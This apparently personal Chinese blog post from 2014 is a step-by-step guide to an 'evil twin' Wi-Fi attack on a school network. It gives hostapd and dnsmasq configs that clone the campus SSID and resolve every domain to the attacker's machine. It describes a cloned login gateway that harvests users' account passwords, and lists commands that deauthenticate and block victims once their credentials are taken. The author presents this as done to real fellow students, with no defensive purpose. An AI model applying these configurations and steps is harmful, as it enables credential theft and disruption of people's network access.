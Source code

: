title:WIFI 热点欺骗
Date: 2014-11-23 15:21
Modified: 2014-11-23 15:21
Tags: WIFI, Linux
Slug: real-attack-show-wifi-vulnerability
image: {photo}Hand of Midas/wifi-hotspot.jpg
Summary:
_很久以前看过一篇关于WIFI脆弱性的[介绍](http://fex.baidu.com/blog/2014/04/traffic-hijack/)(找了好久终于被我找到了)，其中有一部分讲的是由于本身协议的弱点，相同 ssid 的热点会被合并为同一个，至于用户最终连接哪个热点取决于他所能接收到的信号强度。不知道此刻各位看官脑洞有没有大开？_

_俗话说杀生不如宰熟，所以直接就向学校 ap 下手了。提前声明几个全局变量：_

```
ssid: NICESHOT
os： ubuntu
```


###简单部署
####用 hostapd 建立热点
>“**hostapd** is a user space daemon for access point and authentication servers. “

```
sudo apt-get install hostapd
```
更改配置文件 _/etc/hostapd-hotspot.conf_ 如下：
```
# WiFi Hotspot
interface=wlan0
driver=nl80211
#Access Point
ssid=NICESHOT
hw_mode=g
# WiFi Channel:
channel=1
#macaddr_acl=0
auth_algs=1
wmm_enabled=0
#ignore_broadcast_ssid=0
#wpa=3
#wpa_passphrase=1
#wpa_key_mgmt=WPA-PSK
#wpa_pairwise=TKIP
#rsn_pairwise=CCMP
ctrl_interface=/var/run/hostapd
```
可能还需要更改 _/etc/default/hostapd_ 为
```
DAEMON_CONF=/etc/hostapd/hostapd.conf
```
然后测试配置文件`hostapd -d /etc/hostapd-hotspot.conf`,  没有什么问题的话就可以启动服务了
```
service hostapd start
```
####微型 DNCP & DNS -- dnsmasq
>Dnsmasq is a free software DNS forwarder and DHCP server for small networks. It is considered to be easily configured, with low system resource usage.

```
sudo apt-get install dnsmasq
```
更改配置文件 _/etc/dnsmasq.conf_
```
log-facility=/var/log/dnsmasq.log
address=/#/192.168.1.1
interface=wlan0                                                                             
dhcp-range=192.168.1.20,192.168.1.254,12h
no-resolv 
```
然后比较关键的是配置 **wlan0** IP 地址 `ifconfig wlan0 192.168.1.1`。

稍微总结一下，到此为止，我们做了这么些事情：创建 WFIFI 热点，监听 **wlan0** 口，然后通过配置DHCP给所有连接到此 AP 的终端分配IP地址。另外上面的这条配置`address=/#/192.168.1.1`，将所有地址解析到我们的电脑 IP。
####搭建服务器
此处就不详说了，最终达到的效果是访问 `192.168.1.1`是我们的钓鱼网站。

因为校园网需要登陆，也就是说连接校园 AP 之后将所有 HTTP 页面跳转到网关登陆界面。所以我们也部署一个一模一样的登陆网关，然后所有连接的用户跟往常一样登陆网关，神不知鬼不觉得就把账号密码泄露过来了。稍后我会分享此处的简单代码 DEMO 到 GitHub。
###进阶
当然不能停止在这么简陋的东西上面，我们需要更进一步。
####粗暴的强制下线
毕竟我们只有一个无线网卡，用作 AP 之后就不能接入其他网络了，环境也不允许拉一根网线，用户登录网关之后根本没办法继续上网，很快你的伪 AP 就会被发现。所以我们强制所有登录网关，也就是被我们窃取密码的用户离线。
```
hostapd_cli deauthenticate 38:bc:1a:88:12:61                                                     
iptables -A INPUT -m mac --mac-source 38:bc:1a:88:12:61 -j DROP
```
第一句强制用户离线，之前在配置 hostapd 的时，这句就是为了达到这个目的 `ctrl_interface=/var/run/hostapd`，第二句将所有该设备的请求丢弃。这就是当一个人丧失所有利用价值之后的下场！
####配置更为合理的 iptables（还没有实现）
当然，前提是我们自己的电脑还可以通过其他口，比如 _eth0_，访问正常网络。

通过配置合理强大的 **iptables**,精心布局，我们不仅仅获取网关密码这么简单的并且还需要特别严格苛刻的场景的蛋糕。拭目以待。。。
###思考
###后记
####伤敌一百，自损三千
因为自己的装备跟技术很挫，在配置之前那些东西的时候碰到了一些问题，险些出师未捷身先死。

在 ubuntu 下，`service networking restart`,然后你就各种问题爽翻天
- 现在，至少目前为止插上网线之后还需要 `ifup eth0` 才能通过有线上网
- 现在，至少目前为止我连接 WIFI 的时候需要这么做（运气好的话差不多能连接上）
```
ifup wlan0   #up the wlan port 
iwlist wlan0 scan #list availabel wifi ssid
iwconfig wlan0 essid "NICESHOT"  #no password
iwconfig wlan0 ssid "NICESHOT" key password   #with password
dhcpclient wlan0   #get ip via dhcp 
```
- 电脑里面出现了奇怪的端口:wlan0:avahi
- 系统自带的 network-manager 罢工了
- 其他未知错误待续
